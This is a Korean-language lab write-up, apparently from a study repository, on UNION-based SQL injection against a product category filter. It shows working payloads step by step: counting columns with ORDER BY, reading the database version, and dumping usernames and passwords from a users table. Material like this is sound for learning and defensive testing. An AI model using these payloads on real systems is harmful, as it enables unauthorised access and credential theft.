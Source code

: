 # 🔐 UNION — 데이터 탈취

**목표**: 카테고리 필터를 우회하여 웹 페이지에 DB 버전, 개인 정보 등 노출 

<br />

## 🧪 실습

1️⃣ **컬럼 수 파악**: `ORDER BY n`로 에러가 나는 n-1이 컬럼 수

```text
/filter?category=Pets' order by 1# -> OK
... ' order by 2# -> OK
... ' order by 3# -> ERROR  => 컬럼 수 = 2
```

🕵️‍♀️ 참고할 단서: 2개 이상의 스트링 데이터를 사용하고 있다. <br />
<img width="293" height="86" alt="image" src="https://github.com/user-attachments/assets/03a1bdc9-e09e-4c50-b324-7747220236e9" />

<br />

2️⃣ **UNION 테스트**: 컬럼 수·타입 맞춰 임의 문자열 반환 시도

```text
/filter?category=Pets' union select 'hello','world'#  -> 페이지에 노출되면 성공
```

<img width="129" height="101" alt="image" src="https://github.com/user-attachments/assets/d9a9435c-dc9a-4e01-ae13-bcceaa53ddd6" />

<br />

3️⃣ **데이터 탈취**

**DB별 버전 함수/변수 사용:**

```text
/filter?category=Pets' union select @@version, null#
```

<img width="200" height="60" alt="image" src="https://github.com/user-attachments/assets/b0f3c417-2eb3-454f-999d-2e9fe74e6a10" />

<br />

**users 테이블에서 다른 로그인 계정 탈취:**
```text
/filter?category=Lifestyle' union select username, password from users --
```
<img width="340" height="400" alt="image" src="https://github.com/user-attachments/assets/aaac76e9-f7c9-4f5a-9322-09d8ac444000" />


<br /><br />

## 🤝 참고

DB 유형별 버전 조회:
```sql
-- Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance

-- Microsoft
SELECT @@version

-- PostgreSQL
SELECT version()

-- MySQL
SELECT @@version
```

<br />

UNION 조건:<br />
→ 컬럼 수 동일, 데이터 타입 호환, 필요 시 alias 사용

```sql
SELECT a AS X, b AS Y
FROM TABLE_1
UNION
SELECT c AS X, d AS Y
FROM TABLE_2;
```
